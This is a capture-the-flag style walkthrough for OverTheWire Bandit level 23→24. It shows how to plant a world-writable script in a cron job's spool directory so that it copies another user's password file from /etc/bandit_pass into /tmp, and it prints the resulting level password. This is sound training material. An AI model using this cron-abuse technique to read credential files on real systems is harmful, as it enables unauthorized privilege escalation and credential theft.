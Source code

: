 # Bandit Level 23 → 24

## Objective
Exploit a cron job to capture the password for `bandit24`.

## Solution
Create a script in the cron job’s directory:

1. Change directory: `cd /var/spool/bandit24/foo`
2. Create script:
   ```bash
   echo "cat /etc/bandit_pass/bandit24 > /tmp/cert.txt" > pass.sh
   ```
3. Set permissions: `chmod 777 pass.sh`
4. Read output: `cat /tmp/cert.txt`

## Password for bandit24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8